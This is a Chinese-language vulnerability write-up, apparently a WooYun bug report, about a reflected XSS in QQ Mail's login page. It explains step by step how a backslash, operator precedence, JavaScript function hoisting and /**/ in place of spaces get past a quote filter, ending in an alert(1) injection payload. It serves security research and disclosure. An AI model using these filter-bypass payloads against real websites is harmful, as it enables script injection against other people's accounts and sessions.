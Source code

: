 # 5\. 反斜线复仇记

> 来源：[5\. 反斜线复仇记](http://www.wooyun.org/bugs/wooyun-2010-015979)

## 简要描述

还是在`<script>`之间的场景，某些情况下，我们仅仅需要的只是一个反斜线，就可以绕过过滤了。

## 详细说明

1\. 有以下实例点。

```
http://mail.qq.com/cgi-bin/login?vt=passport&ss=aaa&from=bbb&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%25252Fcgi- bin%25252Fsetting10%25253Faction%25253Dlist%252526t%25253Dsetting10%252526ss%25253Dindex%252526Mtype%25253D1%252526cl ickpos%25253D20%252526loc%25253Ddelegate%25252Cwebmap%25252C%25252C1 
```

对应的输出，如下图所示：

![image](img/Image_017.jpg)

经过测试，我们可以看到，双引号是用不了， 但是 反斜线还可以使用。

![image](img/Image_018.jpg)

那么这里是否可以成功的 XSS 呢？ 我们把缺陷代码部分提取出来。

```
<script>getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin="+"&t="+"&alias="+"&regali as="+"&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%252Fcgi-bin%252Fsetting10%253Faction%253Dlist%2526t%253Dsetting1 0%2526ss%253Dindex%2526Mtype%253D1%2526clickpos%253D20%2526loc%253Ddelegate%252Cwebmap%252C%252C1"+"&title="+"&url=%2 Fcgi-bin%2Flogin%3Fvt%3Dpassport%26ss%3Daaa%2522%26from%3Dbbb%5C%26delegate_url%3D%252Fcgi-bin%252Fframe_html%253Furl%253D%2525252Fcgi-bin%2525252Fsetting10%2525253Faction%2525253Dlist%25252526t%2525253Dsetting10%25252526ss%2525253Din dex%25252526Mtype%2525253D1%25252526clickpos%2525253D20%25252526loc%2525253Ddelegate%2525252Cwebmap%2525252C%2525252C1"+"&org_fun="+"&aliastype="+"&ss=aaa"+"&from=bbb"+"&param="+"&sp=6fa57ce5b3047ebMTM1NTQwOTA2Mg"+"&r=3ec785174fff5206 ed6f0cf4a8c5e3c5"+"&ppp="+"&secpp="</script> 
```

2\. 可以看到有缺陷的部分是

```
location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//后面省略。 
```

我们可以控制的是 aaaa ，又不能用`"`，怎么办呢？ 因为我们可以使用 `\`，那么我们可以杀掉 aaaa 后面的 双引号。

```
location.href="........."+"&ss=aaaa\"+"&from=bbb"+"&param="; 
```

可以看到代码的结果因为一个反斜线发生了变化，如下图：

![image](img/Image_019.jpg)

为了保证 bbb 后面的语法正确性，我们把 bbb 改为一个数字，把 bbb 后面加上 `//` 来注释掉后面的部分。变成以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param="; 
```

3\. 看起来不错哦，但是会出来一些问题，`"字符串"&from=1`，这样是错误的，因为&符号的优先级高， `("字符串"&from)=1` 是无法进行 这种赋值操作的。这样一来还是不行。别着急。我们可以稍微改动一下。变为以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param="; 
```

由于==的优先级比 `&` 高，所以语句相当于 `("字符串")&(from==1)`

4\. 更顺眼了，但是还是会悲剧啊。由于 from 未定义，直接和 1 进行相等判断的话，会报错，错误是：“from”未定义。。。怎么办呢？

5\. 别紧张，javascript 里有一个特性。 如下：

```
aaa();

function aaa(){

} 
```

凡是以 `function xxx(){}` 形式定义的函数，都会被最优先解析。换句话说：

解析器在解析 JS 代码段时，会先将 `function xxx(){}` 拿到最前面解析，然后再依次解析其它的部分。 换句话说，上面的代码，实际 的解析顺序是：

```
function aaa(){

}

aaa(); 
```

利用这样一个特性，我们的代码可以改改。

```
location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param="; 
```

这样一来，我们的 `function from(){}` 就会被提前解析，从而定义了 from, 后面 `from==1` 的时候，就不会报错啦～～

6\. 故事往往是曲折的，到了这一步，我们会发现还是不行。

看一看源代码吧～～ ，哎，我们的空格被转义为了 `&nbsp;`

![image](img/Image_020.jpg)

7\. 当然，这么一点小事情，难不到我们的，我们用注释符来做分隔符。 `/**/`替换空格，有没有觉得和 sql 注入一样了，咔咔。

于是，我们的代码变为了：

```
location.href="........."+"&ss=aaaa\"+"&from==1;function/**/from(){}//"+"&param="; 
```

8\. 嗯，这次没有语法错误了，我们插入我们自己的 JS 代码。

```
location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param="; 
```

最终的利用代码如下：

恩，这次是我们的 反斜线为 双引号报仇啦！

![image](img/Image_021.jpg)

只有在不登录 QQ 邮箱的情况下触发，比较鸡肋，实际意义不大，仅供研究。

## 修复方案

1\. 随便修修就好。

2\. 某些情况下，`\` 还是很危险的。